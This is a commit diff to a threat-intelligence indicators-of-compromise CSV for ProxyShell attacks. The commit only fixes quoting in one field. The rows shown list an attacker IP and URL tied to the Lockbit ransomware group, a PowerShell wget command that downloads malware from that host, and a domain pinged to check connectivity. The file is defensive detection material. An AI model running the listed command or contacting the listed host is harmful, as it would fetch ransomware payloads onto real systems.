

Before and after one commit to hvs-consulting/ioc_signatures, a CSV file: Proxyshell/HvS_Proxyshell_2021_09_IOCs.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Fixed CSV file in Proxyshell IoCs

```diff
--- a/Proxyshell/HvS_Proxyshell_2021_09_IOCs.csv
+++ b/Proxyshell/HvS_Proxyshell_2021_09_IOCs.csv
@@ -25,3 +25,3 @@ URL,http://45.91.83.176:41361/xtOGpjcbVRwsZNCHfMDP,URL used in Powershell wget c
 STRING,powershell wget http://45.91.83.176:41361/xtOGpjcbVRwsZNCHfMDP,Powershell wget command
-IP,45.91.83.176,IP used to download malware via Powershell wget, used by Lockbit Ransomware group
+IP,45.91.83.176,"IP used to download malware via Powershell wget, used by Lockbit Ransomware group"
 DOMAIN,themoscowtimes.com,Used in ping command to check for internet connection
```
